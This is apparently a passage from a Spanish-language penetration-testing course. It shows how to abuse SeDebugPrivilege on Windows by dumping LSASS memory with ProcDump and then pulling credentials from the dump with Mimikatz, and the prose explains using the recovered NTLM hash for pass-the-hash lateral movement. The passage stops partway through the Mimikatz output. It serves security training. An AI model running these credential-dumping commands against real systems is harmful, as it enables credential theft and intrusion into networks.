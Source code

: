 ## SeDebugPrivilege

```c
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set   
```

```c
C:\> procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

Podemos utilizar [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) de la suite [SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) para aprovechar este privilegio y volcar la memoria del proceso. Un buen candidato es el proceso Local Security Authority Subsystem Service (LSASS), que almacena las credenciales de usuario después de que un usuario inicie sesión en un sistema.

Esto es exitoso, y podemos cargar esto en Mimikatz usando el comando sekurlsa::minidump. Después de emitir los comandos sekurlsa::logonPasswords, obtenemos el hash NTLM de la cuenta del administrador local conectado localmente. Podemos usar esto para realizar un ataque pass-the-hash para movernos lateralmente si la misma contraseña de administrador local es usada en uno o múltiples sistemas adicionales (común en grandes organizaciones).

```c
C:\htb> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 23196355 (00000000:0161f2c3)
Session           : Interactive from 4
User Name         : DWM-4
```